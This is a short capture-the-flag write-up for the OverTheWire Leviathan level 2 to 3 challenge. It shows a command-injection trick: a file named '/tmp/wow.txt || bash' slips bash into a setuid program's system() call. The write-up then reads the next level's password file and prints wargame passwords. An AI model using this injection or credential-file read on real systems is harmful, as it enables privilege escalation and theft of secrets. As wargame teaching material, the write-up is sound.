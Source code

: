 # Level 2 → Level 3

## Solution
```
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
```
```
mEh5PNl10e
```
```
ls -al
```
![](0.png)

```
ltrace ./printfile /etc/passwd
```

![](1.png)
 
```
touch '/tmp/wow.txt || bash'
```
```
./printfile '/tmp/wow.txt || bash'
```

* `access()` **can** access the file `'/tmp/wow.txt || bash'`
    * because we created this file in **leviathan2** permissions.
* but `system()` running this code: `cat /tmp/wow.txt || bash`
    * **there is not** file named `/tmp/wow.txt`, so `bash` command is running in **leviathan3** permissions.


![](2.png)

```
cat /etc/leviathan_pass/leviathan3
```
```
exit
```
```
rm '/tmp/wow.txt || bash'
```

## Password for the next level:
```
Q0G8j4sakn
```
